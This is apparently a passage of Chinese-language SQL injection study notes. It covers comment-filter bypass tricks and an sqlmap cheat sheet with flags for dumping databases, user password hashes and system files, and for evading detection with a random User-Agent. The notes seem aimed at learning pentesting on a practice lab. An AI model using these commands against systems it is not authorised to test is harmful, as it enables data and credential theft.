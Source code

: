 找前闭合或者后闭合，尝试用union select ‘’去判断回显

2.绕过注释

注释符交叉复写，如-#- 

并对注释符进行必要的URL编码，如-%23-%20

## SQLMAP注入

sqlmap.py 

- 指定攻击目标

`-u "http://xxx.com/index.php?id=1"       指定URL`            

`-p id                           指定参数`

`-r req.txt                   以现有数据包做模版，攻击`

- 自定义数据

`--data="user=8023&pass=xxx"       自定义POST请求`

`--cookie=""`

`--proxy=""`

`--random-agent                随机使用User-Agent（改变sqlmapUA绕过杀软检测）`

- 测试等级

`--level=1                           1-5，默认1，渗透3，级别高检测内容就多`

- 风险等级

 `--risk=1                            1-3，默认1，级别高对服务器的危害就大`

- 输出等级

 `-v 1                                    0-6，默认1，级别高显示更详细`

- 获取内容

` --dbs`          数据库

`--tables`     表

`--columns`   列

`--dump`         数据

`--file-read /etc/pass                      读取某文件内容`

`--current-db                                 获取正在使用的数据库名`
`--current-user                              获取正在使用的用户名`
`--passwords                                  获取用户密码信息内容`

`-a                                                     获取所有（不建议）`

- 指定已知内容

`-D pikachu`

